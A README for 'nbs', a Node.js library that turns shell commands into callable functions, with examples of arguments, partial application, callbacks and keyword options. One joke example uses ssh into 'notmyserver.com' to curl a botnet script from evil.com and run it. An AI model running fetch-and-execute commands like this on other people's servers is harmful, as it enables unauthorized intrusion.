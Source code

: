node-nbs
========

Shelling out with `child_process` is just ... so ... drab. Relieve the tedium
with `nbs`!

```javascript
var sh = require("nbs"),
    curl = sh("curl", {silent: true});
curl("http://httpbin.org/user-agent", function(err, result) {
    console.log(JSON.parse(result)["user-agent"]); // curl/7.30.0
});
// Of course this is a horribly contrived example. You should use `http.get`.
```

Now everything in `$PATH` has node bindings!

Literal Arguments
-----------------

Anything you pass directly to your wrapper function gets passed through.

```javascript
var mkdir = sh("mkdir");
mkdir("example_directory");
```

Multiple arguments can be provided.

```javascript
mkdir("-p", "parent/child");
```

Spaces and the like are automatically escaped.

```javascript
mkdir("Some directory with spaces! Wooo! Rebellion!");
```

Remember that, because this is node, everything is asynchronous, all our calls
will return immediately and execute in parallel. [Libraries like
`async`](https://github.com/caolan/async) or promises are good mechanisms for
organizing this mayhem.

### Argument Expansion

Because `Function.apply` is needlessly ugly, you can simply pass arrays beside
literal arguments.

```javascript
var myFolders = ["folderA", "folderB", "folderC"];
mkdir("-p", "-v", myFolders);
// which is the same as
mkdir.apply(null, ["-p", "-v"].concat(myFolders));
```

You can even have nested lists, and they'll all be expanded upon evaluation.

Partial Application
-------------------

You know, I kinda wish `mkdir` supplied `-p` by default.

```javascript
mkdir = mkdir.partial("-p");
mkdir("another-parent/child");
```

Oh! Look at that! It's okay I guess. I just wish it required **exactly one**
less function call. If only we could apply the partial when creating `mkdir`....

```javascript
var mkdir = sh("mkdir", "-p");
```

Alright. That looks cool, but kinda limited in use.

```javascript
var ssh = sh("ssh"),
    definitelyMyServer = ssh.partial("notmyserver.com", "-p 1234"),
    remoteCurl = definitelyMyServer.partial("curl", "--silent");

remoteCurl("-O", "http://evil.com/evil_botnet_software.sh");
definitelyMyServer("sh", "evil_botnet_software.sh");
// Please only use this on PHP websites
```

Callbacks
---------

Because the output of commands is **occasionally useful**, I guess it might be
**moderately interesting** if there was some way to read them. The easiest way
is with a callback.

```javascript
var _s = require("underscore.string"),
    ls = sh("ls", "-1");
ls(function(err, result) {
    if(err) {
        throw err; // Oh my god! Something horrible must have happened!
    }
    console.log(_s.strip(result).split("\n"));
});
// ["another_parent", "example_directory", ... ]
```

Keyword Arguments
-----------------

As the last argument (before a callback), you may specify keyword arguments as
an object. These keyword arguments get rewritten as follows:

-   Single letter keys get a single dash prepended to them: `-s`
-   Multi-letter keys get two dashes prepended to them: `--long`
-   Integer values get converted to strings
-   Boolean values trigger some special casing (see below)
-   The value is appended after the key, separated by an equals sign:
    `--key=value`

### Boolean Keyword Arguments

It makes sense to think of the keyword arguments as an "options argument".
Fitting this analogy, keyword arguments with boolean values get processed
differently:

-   When true, the keyword gets one or two dashes prepended to it. No value is
    written out.
-   When false, the entire entry is ignored.

As an example, the object

```javascript
{verbose: false, escape: true, color: false, literal: true, a: true}
```

Would translate into

```
--escape --literal -a
```

### Use with a callback

The callback is **always the last** argument. As a result, the call remains
readable with CoffeeScript syntax.

```coffeescript
ls = sh "ls"
ls "-1", all: true, recursive: false, (err, res) ->
    console.log res
```

### "Special" Keyword Arguments

Keys prepended with an _underscore act a bit differently. The following special
arguments are supported

-   `_cwd`: Current working directory
-   `_env`: An object of environment variables
-   `_uid`: The numerical ID or the string username of the user to execute as
-   `_gid`: The numerical ID or the string group of the user to execute as
-   `_encoding`: If supplied, the encoding of stdout and stderr as a string.
    [Any encoding node supports][] can be passed. If given a falsy value, such
    as `null`, the stream will be treated as binary. Default is `utf8`.

  [Any encoding node supports]: http://nodejs.org/api/stream.html#stream_readable_setencoding_encoding

Even More Stuff
---------------

I'm not done writing yet. But there's plenty more features in there, and many
ideas left to implement!

Portability
-----------

Because we're dealing with platform-specific commands, shelling out on Linux and
OS X will almost certainly be different than on Windows. Adding insult to
injury, I haven't even tested this on Windows. Oh well; it's not like Windows
has a significant market share.

See Also
--------

`nbs` is based on the python module, `sh` by Andrew Moffat. [`sh` is hosted on
GitHub.](http://amoffat.github.io/sh/) I even lifted some examples from his
documentation!

`nbs` would be called `sh`, but that name [was already taken by another project
with some similar goals.](http://shjs.tuton.fr/) It's worth checking out too
(although *my* project is *clearly* better). `nbs`'s name is derived from `sh`'s
former name, `pbs`.
